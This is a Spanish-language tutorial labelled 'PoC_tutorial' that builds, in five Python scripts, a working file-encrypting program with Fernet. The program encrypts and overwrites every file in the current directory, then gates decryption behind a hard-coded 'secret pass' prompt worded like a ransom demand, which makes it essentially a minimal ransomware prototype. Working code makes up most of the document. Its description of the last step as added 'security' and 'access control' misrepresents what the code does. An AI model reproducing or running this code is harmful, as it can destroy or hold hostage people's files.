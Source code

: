 # PoC\_tutorial: `cryptography.fernet`

Este documento es un **tutorial práctico paso a paso** sobre la librería `cryptography.fernet` de Python, mostrando cómo listar archivos, generar una clave, cifrar y descifrar ficheros, e incluso añadir un control de acceso mediante contraseña.

---

## Introducción a `cryptography.fernet`

`cryptography.fernet` permite realizar cifrado simétrico seguro con autenticación de mensajes integrada. Sus principales características:

* Generación de claves seguras (`Fernet.generate_key()`).
* Funciones de cifrado y descifrado (`encrypt()` y `decrypt()`) que manejan `bytes`.
* Protección de integridad y confidencialidad de los datos.

El tutorial muestra la evolución de scripts que usan Fernet desde operaciones básicas hasta un flujo completo de cifrado/descifrado.

---

# Evolución de Scripts

## Script 1 — `encrypt_v1.py`

**Función:** Listar archivos en el directorio actual, excluyendo el script propio.

```python
#!/usr/bin/env python3
import os
files = []
for file in os.listdir():
    if file == "encrypt_v1.py":
        continue
    if os.path.isfile(file):
        files.append(file)
print(files)
```

**Salida:**

```
['saludo.txt', 'enfado.txt', 'pwned.txt']
```

**Qué se ha añadido:**

* Creación de la lista de archivos a procesar.
* Filtrado del propio script para no incluirlo.

**Explicación:**
Este script sirve como base para identificar qué archivos se van a procesar en etapas posteriores. Permite recorrer el directorio de trabajo y crear una lista que se usará para cifrar o descifrar.

---

## Script 2 — `encrypt_v2.py`

**Función:** Generar una clave Fernet.

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet
files = []
for file in os.listdir():
    if file == "encrypt_v1.py":
        continue
    if os.path.isfile(file):
        files.append(file)
key = Fernet.generate_key()
print(key)
```

**Salida:** Clave Fernet en bytes.

**Qué se ha añadido:**

* Importación de `Fernet` de la librería `cryptography`.
* Generación de la clave simétrica con `Fernet.generate_key()`.
* Impresión de la clave en consola.

**Explicación:**
Ahora contamos con una clave única que permitirá cifrar y descifrar los archivos. Esta clave es esencial para mantener la confidencialidad de los datos y servirá en los scripts posteriores.

---

## Script 3 — `encrypt_v3.py`

**Función:** Guardar la clave en un fichero.

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet
files = []
for file in os.listdir():
    if file == "encrypt_v1.py":
        continue
    if os.path.isfile(file):
        files.append(file)
print(files)
key = Fernet.generate_key()
with open("thekey.key", "wb") as k:
    k.write(key)
```

**Qué se ha añadido:**

* Guardado de la clave generada en un fichero `thekey.key` en modo binario (`wb`).

**Explicación:**
Almacenamos la clave en un archivo para poder reutilizarla más tarde y descifrar los archivos cifrados sin necesidad de generar una nueva clave cada vez.

---

## Script 4 — `encrypt_v4.py` + `decrypt.py`

**Función:** Cifrar y descifrar archivos usando la clave Fernet.

**Cifrado (`encrypt_v4.py`):**

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet
files = []
for file in os.listdir():
    if file in ["encrypt_v4.py", "thekey.key", "decrypt.py"]:
        continue
    if os.path.isfile(file):
        files.append(file)
key = Fernet.generate_key()
with open("thekey.key", "wb") as k:
    k.write(key)
for file in files:
    with open(file, "rb") as f:
        contents = f.read()
    contents_encrypted = Fernet(key).encrypt(contents)
    with open(file, "wb") as f:
        f.write(contents_encrypted)
```

**Descifrado (`decrypt.py`):**

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet
files = []
for file in os.listdir():
    if file in ["encrypt_v4.py", "thekey.key", "decrypt.py"]:
        continue
    if os.path.isfile(file):
        files.append(file)
with open("thekey.key", "rb") as k:
    secretkey = k.read()
for file in files:
    with open(file, "rb") as f:
        contents = f.read()
    contents_decrypted = Fernet(secretkey).decrypt(contents)
    with open(file, "wb") as f:
        f.write(contents_decrypted)
```

**Qué se ha añadido:**

* Cifrado de cada archivo usando `Fernet(key).encrypt(contents)`.
* Descifrado de cada archivo usando `Fernet(secretkey).decrypt(contents)`.
* Excepción de los archivos de scripts y de la clave para evitar cifrarlos accidentalmente.

**Explicación:**
Se logra un flujo completo de cifrado y descifrado de archivos, usando la misma clave Fernet para garantizar que los datos puedan ser recuperados íntegros y en texto claro.

---

## Script 5 — `encrypt_v5.py` + `decrypt.py` con contraseña

**Función:** Añadir control de acceso mediante contraseña al descifrado.

```python
#!/usr/bin/env python3
import os
from cryptography.fernet import Fernet
files = []
for file in os.listdir():
    if file in ["encrypt_v5.py", "thekey.key", "decrypt.py"]:
        continue
    if os.path.isfile(file):
        files.append(file)
with open("thekey.key", "rb") as k:
    secretkey = k.read()
secretPass = "pwned"
user_Pass = input("\n[+] Introduce el pase secreto para desencriptar tus archivos: ")
if user_Pass == secretPass:
    for file in files:
        with open(file, "rb") as f:
            contents = f.read()
        contents_decrypted = Fernet(secretkey).decrypt(contents)
        with open(file, "wb") as f:
            f.write(contents_decrypted)
    print("\n[!] Enhorabuena tus archivos fueron descifrados\n")
else:
    print("\n[!!!] Ese no es el pase secreto, lo siento.")
```

**Qué se ha añadido:**

* Solicitud de contraseña al usuario antes del descifrado.
* Validación de la contraseña con un valor predefinido (`secretPass`).
* Descifrado solo si la contraseña es correcta.
* Mensajes de éxito o error según el caso.

**Explicación:**
Este script incrementa la seguridad añadiendo un control de acceso. Aunque los archivos estén cifrados, solo un usuario con la contraseña correcta puede recuperar su contenido.

---

**Resumen:**

1. Listado de archivos para procesar.
2. Generación y almacenamiento de clave Fernet.
3. Cifrado de archivos y sobrescritura.
4. Descifrado seguro de archivos.
5. Control de acceso mediante contraseña.

El flujo puede extenderse con exclusión dinámica de archivos, manejo de errores, logging y otras buenas prácticas de seguridad.

---
